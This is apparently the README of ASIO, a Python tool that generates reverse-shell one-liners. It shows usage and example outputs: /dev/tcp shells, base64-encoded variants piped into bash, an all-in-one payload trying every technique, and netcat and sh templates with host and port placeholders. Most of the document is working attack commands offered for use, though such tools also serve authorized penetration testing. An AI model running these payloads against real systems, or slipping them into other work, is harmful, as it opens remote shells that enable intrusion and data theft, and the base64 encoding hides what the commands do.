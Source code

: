 <p align="center">
<img src="icon.png">
</p>

# ASIO
## Description
ASIO (All Shell In One) is a tool written in Python3 that generates reverse shells. It has the ability to **cast a one liner that uses all the available reverse shell teqniques**

## Usage
```
usage: asio.py [-h] -H HOST -P PORT [-A] [-B]

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Hostname or IP of the server
  -P PORT, --port PORT  Port of the server
  -A, --all             Use this argument to generate a full one liner to try all the reverse shell possible.
  -B, --base64          Encode all the reverse shells in base64 and build a one liner to execute the decoded string
```
## Examples

### Generate multiple reverse shells
Command:
```
./asio.py -H 127.0.0.1 -P 8080
```
Output:
```
 sh in dev tcp 
 sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

 exec sh in dev tcp 
 0<&196;exec 196<>/dev/tcp/127.0.0.1/8080; sh <&196 >&196 2>&196
 ```

### Generate multiple reverse shells encoded in base64
Command:
```
./asio.py -H 127.0.0.1 -P 8080 -B
```
Output:
```
 sh in dev tcp 
echo IHNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84MDgwIDA+JjE= | base64 -d | bash

exec sh in dev tcp 
echo IDA8JjE5NjtleGVjIDE5Njw+L2Rldi90Y3AvMTI3LjAuMC4xLzgwODA7IHNoIDwmMTk2ID4mMTk2IDI+JjE5Ng== | base64 -d | bash
```

### Generate one liner with all the available teqniques encoded in base64
Command:
```
./asio.py -H 127.0.0.1 -P 8080 -B -A
```
Output:
```
 All in one
echo KCBzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjE<more base64> | base64 -d | bash
```


## Add presonalized reverse shells
 - Edit the `personal_shells.txt` file
 - Use the following syntaxt: `Name of the Revere Shell | Reverse Shell Code`
 - Use `{HOST}` and `{PORT}` as a placeholders for address and port variables.

### Example
`sh in dev tcp | sh -i >& /dev/tcp/{HOST}/{PORT} 0>&1`

`netcat -e | nc -e /bin/sh {HOST} {PORT}`
